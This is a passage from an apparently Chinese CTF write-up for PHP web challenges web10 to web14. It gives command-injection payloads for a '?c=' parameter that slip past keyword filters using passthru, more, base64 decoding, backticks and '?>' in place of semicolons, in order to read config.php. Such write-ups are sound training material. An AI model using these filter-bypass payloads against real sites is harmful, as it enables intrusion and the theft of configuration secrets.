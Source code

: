 cat config.php后查看源码得到flag

------



### web10

------

和上题一样，但过滤了system，用passthru执行命令。

------



### web11

------

和上题一样，过滤了cat，用more查看文件内容

------



### web12

------

和上题一样，但要用base64绕过config过滤

?c=$a = base64_decode('Y29uZmlnLnBocA==');passthru("more $a");

------



### web13

------

源码中过滤了参数中的 system exec highlight cat . ; file php config 等关键字, 这里可以使用 passthru()函数 配合反引号`` 来执行系统命令, 针对分号;的过滤, 我们可以使用 ?> 代替 分号, 首先查看当前目录下的文件

?c=passthru('ls')?>
 接下来读取config.php文件的内容, payload如下

反引号``会将其中的内容当做系统命令来执行, 并返回一个字符串类型的变量用来保存执行结果, 下面的payload会先执行 `ls | grep con*`, 在将结果作为文件名供 more命令查询, 也就是 more config.php

```
?c=passthru("more `ls | grep con*`")?>
```

------



### web14
